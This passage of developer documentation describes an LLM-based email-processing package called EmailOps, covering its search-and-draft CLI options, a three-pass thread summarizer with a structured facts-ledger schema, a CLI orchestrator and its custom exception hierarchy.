| `FRESH_TOKENS_TARGET_DEFAULT` | 10,000 | Tokens for fresh email |
| `MAX_HISTORY_HARD_CAP` | 5 | Maximum chat history messages |

---

## 7. Advanced Features

### 7.1 Chat Session Management

```python
@dataclass
class ChatSession:
    base_dir: Path
    session_id: str
    max_history: int = 5
    messages: list[ChatMessage]
    
    # Persistent storage
    def save() -> None
    def load() -> None
    def reset() -> None
```

### 7.2 Conversation Subject Filtering

```python
def _find_conv_ids_by_subject(
    mapping: list[dict], 
    subject_keyword: str
) -> set[str]:
    """Find conversations by subject keyword"""
```

### 7.3 Reply Policy Options

- **`reply_all`**: Include all original recipients
- **`smart`**: Exclude mailing lists and no-reply addresses
- **`sender_only`**: Reply only to the sender

### 7.4 Error Handling & Retries

```python
# Retry mechanism with exponential backoff
MAX_RETRIES = 3
for attempt in range(MAX_RETRIES):
    try:
        response = complete_text(...)
        break
    except Exception:
        time.sleep(2**attempt)
```

---

## 8. Command-Line Interface

### 8.1 Basic Usage

```bash
# Search only
python -m emailops.search_and_draft \
    --root ./export \
    --query "policy renewal" \
    --k 10

# Reply to conversation
python -m emailops.search_and_draft \
    --root ./export \
    --reply-conv-id "C12JXMY" \
    --query "Please provide more details"

# Fresh email
python -m emailops.search_and_draft \
    --root ./export \
    --fresh \
    --to "client@example.com" \
    --subject "Policy Update" \
    --query "Draft introduction about new coverage"

# Chat mode
python -m emailops.search_and_draft \
    --root ./export \
    --chat \
    --session "session1" \
    --query "What is the claim status?"
```

### 8.2 Advanced Options

```bash
# Override sender (must be in ALLOWED_SENDERS)
--sender "Jane Doe <jane@company.com>"

# Set reply policy
--reply-policy smart  # or: reply_all, sender_only

# Control temperature
--temperature 0.3

# Set similarity threshold
--sim-threshold 0.25

# Token budgets
--reply-tokens 30000
--fresh-tokens 15000

# Disable attachments
--no-attachments

# Reset chat session
--reset-session
```

---

## 9. Integration Points

### 9.1 Dependencies

- **[`llm_client.py`](llm_client.py)**: LLM completion and embedding functions
- **[`index_metadata.py`](index_metadata.py)**: Index metadata management
- **[`utils.py`](utils.py)**: Conversation loading and utilities
- **[`email_indexer.py`](email_indexer.py)**: (Implicit) Creates the FAISS index
- **[`text_chunker.py`](text_chunker.py)**: (Implicit) Chunk generation

### 9.2 File Structure Requirements

```
export_root/
├── _emailops_index/      # Index directory
│   ├── index.faiss       # FAISS vector index
│   ├── mapping.json      # Document metadata
│   ├── embeddings.npy    # Embedding vectors
│   └── metadata.json     # Index metadata
├── [conv_id]/            # Conversation directories
│   ├── Conversation.txt  # Thread text
│   └── manifest.json     # Conversation metadata
└── _chat_sessions/       # Chat session storage
    └── [session_id].json # Session history
```

---

## 10. Performance Considerations

### 10.1 Memory Management

- **Embeddings**: Uses memory-mapped numpy arrays (`mmap_mode='r'`)
- **Context Windows**: Configurable per-snippet limits prevent OOM
- **Deduplication**: `_deduplicate_chunks()` reduces redundant content

### 10.2 Optimization Strategies

1. **Candidate Filtering**: Pre-filter with `CANDIDATES_MULTIPLIER`
2. **Early Stopping**: Stop collecting context when budget reached
3. **Lazy Loading**: Documents loaded only when needed
4. **Batch Operations**: Vector operations use numpy broadcasting

### 10.3 Scaling Limits

- **Max search results**: 250 documents
- **Max context per snippet**: 500k chars (reply), 250k (fresh)
- **Max attachments**: 15MB total
- **Max chat history**: 5 messages

---

## 11. Security Considerations

### 11.1 Input Validation

- **Sender Allow-listing**: Only approved senders can be overridden
- **Header Sanitization**: `_sanitize_header_value()` prevents injection
- **Path Validation**: All paths resolved and validated

### 11.2 Data Protection

- **Session Isolation**: Chat sessions are user-specific
- **Atomic Writes**: Session files written atomically
- **Error Recovery**: Corrupt sessions backed up and reset

---

## 12. Troubleshooting

### Common Issues

1. **"Index not found"**
   - Ensure index is built with `email_indexer.py`
   - Check `INDEX_DIRNAME` environment variable

2. **"Embedding dimension mismatch"**
   - Index and query provider must match
   - Rebuild index with correct provider

3. **"No context gathered"**
   - Lower `sim_threshold` parameter
   - Check if conversation exists
   - Verify index contains documents

4. **"Failed to parse structured response"**
   - Module includes fallback to text parsing
   - Check LLM provider status
   - Review temperature settings

### Debug Environment Variables

```bash
# Enable debug logging
export LOG_LEVEL=DEBUG

# Force embedding renormalization
export FORCE_RENORM=1

# Allow provider override (unsafe)
export ALLOW_PROVIDER_OVERRIDE=1
```

### summarize_email_thread.py.corrected.md

# `summarize_email_thread.py` - Advanced Email Thread Analysis Engine

## 1. Overview

This module performs deep, structured analysis of email conversations using a sophisticated multi-pass LLM workflow. It transforms raw email threads into comprehensive "facts ledgers" - structured JSON documents that capture every important aspect of the conversation including participants, requests, commitments, risks, and action items.

**Core Capabilities:**
- **Three-pass analysis**: Initial analysis → Critic review → Improvement pass
- **Facts ledger extraction**: Structured capture of all conversation elements
- **Robust JSON parsing**: Multiple fallback strategies for LLM output
- **Manifest enrichment**: Automatic metadata integration from conversation files
- **Multiple output formats**: JSON, Markdown, and CSV for action items
- **Atomic file operations**: Safe writes with retry logic

---

## 2. The Three-Pass Analysis Workflow

### 2.1 Workflow Architecture

```mermaid
graph TD
    subgraph "Pass 1: Initial Analysis"
        A[Cleaned Email Text] --> B[LLM: Senior Account Manager]
        B --> C[Structured JSON Output]
        C --> D[Parse & Normalize]
        D --> E[Initial Analysis]
    end
    
    subgraph "Pass 2: Critic Review"
        E --> F[Analysis + Original Text]
        F --> G[LLM: Quality Control Specialist]
        G --> H[Completeness Score + Gaps]
    end
    
    subgraph "Pass 3: Conditional Improvement"
        H --> I{Score < 85% OR Critical Gaps?}
        I -->|Yes| J[LLM: Expert Analyst]
        J --> K[Improved Analysis]
        I -->|No| L[Keep Initial Analysis]
        K --> M[Final Analysis]
        L --> M
    end
```

### 2.2 Key Functions

**`analyze_email_thread_with_ledger()`**: Core analysis function
- Processes email text through three-pass workflow
- Returns normalized, validated analysis dictionary
- Handles fallback to text mode if JSON parsing fails

**`analyze_conversation_dir()`**: Higher-level directory processor
- Reads `Conversation.txt` from directory
- Runs analysis workflow
- Optionally merges manifest metadata
- Returns enriched analysis

---

## 3. The Facts Ledger Schema

### 3.1 Top-Level Structure

```python
{
    "category": str,           # From predefined catalog
    "subject": str,            # Max 100 chars
    "participants": [...],     # Detailed participant info
    "facts_ledger": {...},     # Core facts structure
    "summary": [...],          # Bullet points
    "next_actions": [...],     # Action items
    "risk_indicators": [...],  # Risk flags
    "_metadata": {...}         # Analysis metadata
}
```

### 3.2 Facts Ledger Components

#### Explicit Asks
```python
{
    "from": str,               # Who requested
    "request": str,            # What was asked
    "urgency": enum,           # immediate/high/medium/low
    "status": enum             # pending/acknowledged/in_progress/completed/blocked
}
```

#### Commitments Made
```python
{
    "by": str,                 # Who committed
    "commitment": str,         # What was promised
    "deadline": str,           # When due
    "feasibility": enum        # achievable/challenging/risky/impossible
}
```

#### Key Dates
```python
{
    "date": str,              # Date/time
    "event": str,             # What happens
    "importance": enum        # critical/important/reference
}
```

### 3.3 Participant Analysis

```python
{
    "name": str,              # Person's name
    "role": enum,             # client/broker/underwriter/internal/other
    "email": str,             # Email address
    "tone": enum,             # professional/frustrated/urgent/friendly/demanding/neutral
    "stance": str             # Position/attitude in thread
}
```

---

## 4. Robust JSON Processing

### 4.1 The `_try_load_json()` Function

```mermaid
graph TD
    A[Raw LLM Output] --> B{Is dict?}
    B -->|Yes| C[Return as-is]
    B -->|No| D{Direct JSON parse?}
    D -->|Success| E[Return parsed]
    D -->|Fail| F{Find ```json block?}
    F -->|Found| G[Extract & Parse]
    F -->|Not Found| H{Find balanced {}?}
    H -->|Found| I[Extract & Parse]
    H -->|Not Found| J[Return None]
```

### 4.2 Extraction Strategies

1. **Direct parsing**: Try `json.loads()` on raw string
2. **Fenced blocks**: Extract from ` ```json...``` ` markers
3. **Balanced braces**: Find first complete `{...}` object
4. **Fallback**: Return None, trigger text mode

### 4.3 The `_extract_first_balanced_json_object()` Function

Sophisticated parser that:
- Tracks brace balance while respecting strings
- Handles escaped characters correctly
- Finds first complete JSON object in mixed text
- Returns extractable JSON string or None

---

## 5. Data Normalization & Validation

### 5.1 The `_normalize_analysis()` Function

**Purpose**: Ensure LLM output conforms to schema requirements

**Operations:**
1. **Type enforcement**: Convert to correct types
2. **Enum validation**: Ensure values are from allowed sets
3. **Length limits**: Truncate strings to max lengths
4. **Deduplication**: Remove duplicate participants
5. **Default values**: Add missing required fields
6. **Size caps**: Limit array lengths

### 5.2 Configuration Limits

```python
MAX_THREAD_CHARS = 16000      # Input text limit
CRITIC_THREAD_CHARS = 5000    # Critic review limit
IMPROVE_THREAD_CHARS = 8000   # Improvement pass limit
MAX_PARTICIPANTS = 25          # Max people tracked
MAX_SUMMARY_POINTS = 25        # Max summary bullets
MAX_NEXT_ACTIONS = 50          # Max action items
MAX_FACT_ITEMS = 50           # Max per fact category
SUBJECT_MAX_LEN = 100         # Subject line limit
```

---

## 6. Manifest Integration

### 6.1 The `_merge_manifest_into_analysis()` Function

**Enrichment Strategy:**
- Only fills **empty** fields (never overwrites)
- Sources data from `manifest.json` 
- Extracts from raw email headers as fallback

**Data Sources Priority:**
1. LLM analysis (always preferred)
2. Manifest smart_subject/subject
3. Raw email headers
4. Defaults

### 6.2 Manifest Data Extraction

```python
def _participants_from_manifest(manifest):
    # Extract from first message
    # Convert to schema format
    # Deduplicate by email/name
    # Apply MAX_PARTICIPANTS limit

def _read_manifest(convo_dir):
    # BOM-tolerant UTF-8 reading
    # Control character sanitization
    # JSON parse with error handling
```

---

## 7. Output Generation

### 7.1 JSON Output (`summary.json`)

**Atomic Write Process:**
```python
def _atomic_write_text(path, content):
    # Create temp file
    # Write content
    # Atomic rename with retries
    # Handle OS locks gracefully
```

### 7.2 Markdown Output (`summary.md`)

**`format_analysis_as_markdown()` Function:**
- Escapes markdown-sensitive characters
- Structures content hierarchically
- Includes all ledger components
- Adds metadata footer

**Structure:**
```markdown
# Email Thread Analysis
## Summary
## Participants
## Facts Ledger
### Explicit Requests
### Commitments Made
### Unknown Information
### Forbidden Promises
### Key Dates
## Next Actions
## Risk Indicators
---
## Metadata
```

### 7.3 CSV Export (`todo.csv`)

**`_append_todos_csv()` Function:**
- Appends to root-level CSV
- Deduplicates by (who, what, thread)
- Guards against formula injection
- Uses DictWriter for safety

**CSV Schema:**
```csv
who,what,due,status,priority,thread
```

---

## 8. LLM Prompting Strategy

### 8.1 System Prompts

**Initial Analysis:**
```
You are a senior insurance account manager analyzing email 
threads with extreme attention to detail...
- Extract ONLY facts from the email text
- Identify every participant's emotional state
- Flag any promises that may be problematic
```

**Critic:**
```
You are a quality control specialist reviewing email thread analyses...
Verify:
1. All participants correctly identified
2. No explicit asks or commitments missed
3. All unknowns captured
```

**Improver:**
```
You are an expert analyst improving an email thread analysis...
Add any missed information while maintaining accuracy
```

### 8.2 Response Schemas

All three passes use detailed JSON schemas with:
- Strict type definitions
- Enum constraints for categorical fields
- Required field specifications
- Nested object structures

---

## 9. Error Handling & Resilience

### 9.1 The `_retry()` Function

```python
def _retry(callable_fn, retries=2, delay=0.5):
    # Exponential backoff: delay * 2^(attempt-1)
    # ±20% jitter to avoid thundering herd
    # Re-raises after final attempt
```

### 9.2 Fallback Strategies

1. **JSON parsing fails** → Try text mode
2. **Text mode fails** → Use raw response as summary
3. **Manifest missing** → Continue without enrichment
4. **File write fails** → Retry with backoff

---

## 10. Command-Line Interface

### 10.1 Basic Usage

```bash
# Analyze single conversation
python -m emailops.summarize_email_thread \
    --thread ./export/C12JXMY

# Generate markdown output
python -m emailops.summarize_email_thread \
    --thread ./export/C12JXMY \
    --output-format markdown

# Append to todo.csv
python -m emailops.summarize_email_thread \
    --thread ./export/C12JXMY \
    --write_todos_csv
```

### 10.2 Advanced Options

```bash
# Custom categories
--catalog claim_notification contract_review admin_internal

# Skip manifest merge
--no-manifest-merge

# Markdown only (no JSON)
--output-format markdown --no-json

# Custom temperature
--temperature 0.3

# Provider specification
--provider vertex
```

---

## 11. Configuration

### 11.1 Environment Variables

| Variable | Default | Description |
|----------|---------|-------------|
| `SUMMARIZER_VERSION` | "2.2-facts-ledger" | Analysis version |
| `SUMMARIZER_THREAD_MAX_CHARS` | 16000 | Max input chars |
| `SUMMARIZER_CRITIC_MAX_CHARS` | 5000 | Critic input limit |
| `SUMMARIZER_IMPROVE_MAX_CHARS` | 8000 | Improvement input limit |
| `SUMMARIZER_MAX_PARTICIPANTS` | 25 | Max participants |
| `SUMMARIZER_MAX_SUMMARY_POINTS` | 25 | Max summary items |
| `SUMMARIZER_MAX_NEXT_ACTIONS` | 50 | Max action items |
| `SUMMARIZER_MAX_FACT_ITEMS` | 50 | Max facts per category |
| `SUMMARIZER_SUBJECT_MAX_LEN` | 100 | Subject length limit |

### 11.2 Default Categories

```python
DEFAULT_CATALOG = [
    "insurance_coverage_query",
    "contract_review_request", 
    "certificate_request",
    "endorsement_change_request",
    "claim_notification_or_management",
    "claim_update_request",
    "admin_internal",
    "admin_external",
    "other"
]
```

---

## 12. Integration Points

### 12.1 Dependencies

**Required Modules:**
- [`llm_client.py`](llm_client.py): `complete_json()`, `complete_text()`
- [`utils.py`](utils.py): `clean_email_text()`, `extract_email_metadata()`, `read_text_file()`

**Optional (with fallbacks):**
- Can run standalone with minimal functionality
- Provides no-op implementations for missing imports

### 12.2 File Structure

```
conversation_dir/
├── Conversation.txt    # Required: Email thread text
├── manifest.json      # Optional: Metadata for enrichment
├── summary.json       # Output: Analysis results
├── summary.md         # Output: Human-readable analysis
└── [attachments]      # Ignored by this module
```

---

## 13. Performance Optimization

### 13.1 Text Truncation

- Input text capped at 16k chars for initial analysis
- Critic gets first 5k chars for review
- Improvement pass uses first 8k chars
- Prevents token limit overruns

### 13.2 Efficient Deduplication

```python
# Normalize and track seen keys
seen_keys = set()
for participant in participants:
    key = email.lower() or f"name:{normalized_name}"
    if key not in seen_keys:
        seen_keys.add(key)
        # Keep participant
```

### 13.3 Completeness Score Optimization

- Skip improvement pass if score ≥ 85%
- Skip if no critical gaps identified
- Saves one LLM call in most cases

---

## 14. Security Considerations

### 14.1 CSV Injection Prevention

```python
def _safe_csv_cell(x):
    # Prefix with ' if starts with =, +, -, @
    # Handles leading tabs
    # Prevents formula execution
```

### 14.2 Path Security

- All paths resolved to absolute
- Parent directory creation validated
- Atomic writes prevent corruption

### 14.3 Control Character Sanitization

```python
# Remove problematic control chars from manifest
text = re.sub(r"[\x00-\x08\x0B\x0C\x0E-\x1F\x7F-\x9F]", "", text)
```

### processor.py.md

# `processor.py` - EmailOps Orchestrator

## 1. Overview

This module serves as the main command-line interface (CLI) and orchestrator for the EmailOps application. It provides a unified entry point for various high-level commands, delegating the actual work to the specialized modules within the `emailops` package.

**Key Responsibilities:**
-   **Command-Line Parsing**: Defines and parses CLI arguments for all supported commands.
-   **Orchestration**: Calls the appropriate functions from other modules based on the user's command.
-   **Environment Setup**: Ensures that the necessary environment variables are configured for all operations.
-   **Error Handling**: Provides a centralized place for catching and logging exceptions.
-   **Parallel Processing**: Manages multiprocessing for tasks that can be parallelized, like summarizing multiple conversations.

---

## 2. Commands and Workflows

The processor module supports the following commands:

### 2.1. `index`
-   **Purpose**: Build or update the vector search index.
-   **Delegates to**: `email_indexer.py` (run as a separate subprocess).
-   **Workflow**:
    1.  Validates the `--root` directory.
    2.  Constructs the command-line arguments for `email_indexer.py`.
    3.  Runs the indexer in a subprocess with a timeout.
    4.  Checks the return code and logs any errors.

### 2.2. `reply`
-   **Purpose**: Draft a reply to a specific email conversation.
-   **Delegates to**: `search_and_draft.draft_email_reply_eml()`.
-   **Workflow**:
    1.  Validates the `--root` and `--conv-id` arguments.
    2.  Calls `draft_email_reply_eml()` with the provided parameters.
    3.  Saves the resulting `.eml` file to the specified output path or a default location.

### 2.3. `fresh`
-   **Purpose**: Draft a new email from scratch.
-   **Delegates to**: `search_and_draft.draft_fresh_email_eml()`.
-   **Workflow**:
    1.  Validates required arguments (`--to`, `--subject`, `--query`).
    2.  Calls `draft_fresh_email_eml()`.
    3.  Saves the resulting `.eml` file.

### 2.4. `chat`
-   **Purpose**: Engage in a conversational chat with the email data.
-   **Delegates to**: `search_and_draft.chat_with_context()`.
-   **Workflow**:
    1.  Performs a search using `_low_level_search` to gather context.
    2.  Calls `chat_with_context()` with the query and retrieved context.
    3.  Prints the response as JSON or plain text.

### 2.5. `summarize`
-   **Purpose**: Summarize a single email conversation.
-   **Delegates to**: `summarize_email_thread.analyze_conversation_dir()`.
-   **Workflow**:
    1.  Validates the conversation directory path.
    2.  Calls `analyze_conversation_dir()`.
    3.  Saves the analysis as `analysis.json` and optionally `analysis.md`.

### 2.6. `summarize-many`
-   **Purpose**: Summarize multiple conversations in parallel.
-   **Delegates to**: `_summarize_worker()` function, which calls `summarize_email_thread.analyze_conversation_dir()`.
-   **Workflow**:
    1.  Finds all conversation directories under the `--root`.
    2.  Creates a `_SummJob` for each conversation.
    3.  Uses a `multiprocessing.Pool` to execute `_summarize_worker` for each job in parallel.
    4.  Logs the success or failure of each job.

---

## 3. Key Implementation Details

### 3.1. Environment and Configuration
-   **`_ensure_env()`**: This function is called before executing commands to ensure that the environment is properly configured. It uses `get_config().update_environment()` to propagate all settings from the `EmailOpsConfig` object to `os.environ`.

### 3.2. Subprocess Execution
-   **`_run_email_indexer()`**: This function runs the `email_indexer.py` script as a separate Python process. This is done to isolate the `argparse` and `sys.argv` of the main processor from the indexer script.
-   **Security**: It includes command validation to prevent shell injection, either through the `validators` module or a fallback mechanism.

### 3.3. Parallel Processing
-   **`summarize-many`**: This command uses `multiprocessing.get_context("spawn")` to create a new process for each worker, which is a safe way to handle multiprocessing, especially on Windows.
-   **`_summarize_worker()`**: This top-level function is designed to be "picklable" so it can be sent to worker processes. It takes a `_SummJob` dataclass as its argument.

### 3.4. Custom Exceptions
The module defines its own set of custom exceptions to provide more specific error information:
-   `ProcessorError`
-   `IndexNotFoundError`
-   `ConfigurationError`
-   `CommandExecutionError`

---

## 4. Dependencies

This module acts as an orchestrator and has dependencies on most of the other core modules in the `emailops` package:
-   `config`
-   `index_metadata`
-   `search_and_draft`
-   `summarize_email_thread`
-   `validators` (optional, with fallback)

---

## Part 7: Common

### exceptions.py.md

# `exceptions.py` - Centralized Exception Definitions

## 1. Overview

This module defines a hierarchy of custom exception classes for the EmailOps application. Using custom exceptions provides a consistent and maintainable way to handle errors throughout the codebase, making it easier to distinguish between different types of errors and handle them appropriately.

**Key Features:**
- **Hierarchical Structure**: All custom exceptions inherit from a common `EmailOpsError` base class.
- **Clarity and Specificity**: Each exception class represents a specific category of error.
- **Backward Compatibility**: Includes aliases for older exception names to ensure compatibility with existing code.

---

## 2. Exception Hierarchy

The exceptions are organized in a simple inheritance structure:

```mermaid
graph TD
    A[Exception] --> B[EmailOpsError];
    B --> C[ConfigurationError];
    B --> D[IndexError];
    B --> E[EmbeddingError];
    B --> F[ProcessingError];
    B --> G[ValidationError];
    B --> H[ProviderError];
    B --> I[FileOperationError];
```

---

## 3. Exception Classes

### 3.1. `EmailOpsError`

-   **Inherits from**: `Exception`
-   **Purpose**: The base exception for all custom errors in the EmailOps application. Catching this exception will catch any of the more specific EmailOps errors.

### 3.2. `ConfigurationError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised when there is an issue with the application's configuration, such as a missing setting or an invalid value.

### 3.3. `IndexError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised for errors related to the search index, such as when the index is not found, corrupted, or there is a version mismatch.

### 3.4. `EmbeddingError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised when an operation related to text embedding fails. This can include issues with the embedding provider, dimension mismatches, or problems with the embedding model itself.

### 3.5. `ProcessingError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised during the processing of documents or text, such as failures in text extraction, cleaning, or chunking.

### 3.6. `ValidationError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised when input validation fails. This is used by the `validators.py` module to indicate that user-provided data (like a file path or command argument) is invalid or unsafe.

### 3.7. `ProviderError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised when an external provider, such as an LLM or embedding service, returns an error.

### 3.8. `FileOperationError`

-   **Inherits from**: `EmailOpsError`
-   **Purpose**: Raised when a file I/O operation (like reading, writing, or deleting a file) fails.

---

## 4. Backward Compatibility Aliases

To ensure that older parts of the codebase that use different exception names continue to work, the following aliases are provided:

-   `LLMError` = `ProviderError`
-   `ProcessorError` = `ProcessingError`
-   `CommandExecutionError` = `ProcessingError`
-   `IndexNotFoundError` = `IndexError`

---

## 5. Usage Example

Using these custom exceptions allows for more specific and readable error handling code.

```python
from emailops.exceptions import ConfigurationError, IndexError
from emailops.config import get_config
from emailops.email_indexer import build_index

try:
    # Attempt to get configuration
    config = get_config()
    
    # Attempt to build the index
    build_index(config)

except ConfigurationError as e:
    print(f"Configuration error: {e}")
    # Handle missing or invalid configuration

except IndexError as e:
    print(f"Index error: {e}")
    # Handle issues with the search index

except Exception as e:
    print(f"An unexpected error occurred: {e}")
    # Handle any other exceptions